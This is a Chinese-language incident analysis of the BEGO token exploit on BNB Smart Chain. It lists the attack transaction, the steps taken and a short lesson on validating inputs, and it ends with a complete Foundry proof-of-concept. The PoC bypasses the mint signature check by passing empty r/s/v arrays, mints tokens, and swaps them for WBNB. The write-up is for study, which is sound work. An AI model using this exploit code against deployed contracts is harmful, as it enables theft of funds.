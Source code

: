 [toc]
`攻击者通过在mint代币的时候，传入空的rsv来绕开签名的检查，获取12个WBNB的利润`

## 事件基本情况
```
tx: 0x9f4ef3cc55b016ea6b867807a09f80d1b2e36f6cd6fccfaf0182f46060332c57
区块链：bsc
发送者: 0xde01f6ce91e4f4bdb94bb934d30647d72182320f
受害者: 0xc342774492b54ce5F8ac662113ED702Fc1b34972
攻击合约: 0x08a525104ea2a92abbce8e4e61c667eed56f3b42
调用函数: 0x28b5e32b
区块高度: 22315680
漏洞点：不恰当的函数逻辑。
```

## hacker攻击流程 
1. 调用BEGO的mint方法，传入的rsv为空，可以绕开合约签名的检查。并将接收者设置为PancakeSwap V2: BGEO。
2. 用PancakeSwap V2: BGEO的swap将BEGO兑换为WBNB发送给sender

  流程图如下
  ![[Pasted image 20230521144812.png]]
  漏洞方法如图
![[Pasted image 20230521145009.png]]

## 攻击点复刻方式
1. 创建攻击合约
2. 在攻击方法中调用mint，传入空的rsv
3. 将mint的BEGO去兑换为WBNB

## 攻击模拟结果图

![[Pasted image 20230521152255.png]]

## 事件总结

`一定要对传入的参数进行特殊性检查，防止被黑客利用`

## 攻击代码
```
// SPDX-License-Identifier: UNLICENSED

pragma solidity ^0.8.10;

  

import "forge-std/Test.sol";

import "./UniversalInterface.sol";

  

// 定义常量

IERC20 constant WBNB = IERC20(0xbb4CdB9CBd36B01bD1cBaEBF2De08d9173bc095c);

address constant BEGO = 0xc342774492b54ce5F8ac662113ED702Fc1b34972;

IPancakeRouter02 constant Router = IPancakeRouter02(0x10ED43C718714eb63d5aA57B78B54704E256024E);

uint256 constant BlockNumber = 22315679;

  
  

// 定义接口

interface BEGOERC20 {

        function mint(

        uint256 _amount,

        string memory _txHash,

        address _receiver,

        bytes32[] memory _r,

        bytes32[] memory _s,

        uint8[] memory _v

    ) external;

}

  

// 攻击合约

contract Exploit is Test{

  

// 设置攻击环境

    function setUp() public {

        vm.createSelectFork("bsc", BlockNumber);

    }

  

// 攻击函数

    function testAttack() public {

        // 攻击前WBNB

        console.log("WBNB owned before attack:",WBNB.balanceOf(address(this)));

        bytes32 [] memory _r = new bytes32[](0);

        bytes32 [] memory _s = new bytes32[](0);

        uint8 [] memory _v = new uint8[](0);

        BEGOERC20(BEGO).mint(1000000000000000000000000000000, "t", address(this), _r, _s, _v);

        BEGOToWBNB();

        // 攻击后WBNB

        console.log("WBNB owned before attack:",WBNB.balanceOf(address(this)));

    }

  

    function BEGOToWBNB() internal {

        IERC20(BEGO).approve(address(Router), type(uint).max);

        address[] memory path = new address[](2);

        path[0] = address(BEGO);

        path[1] = address(WBNB);

        Router.swapExactTokensForTokensSupportingFeeOnTransferTokens(

            IERC20(BEGO).balanceOf(address(this)),

            0,

            path,

            address(this),

            block.timestamp

        );

    }

}
```
`感觉对有帮助的可以点个赞，谢谢♥；如果喜欢的话可以订阅，我会持续更新合约漏洞事件。`
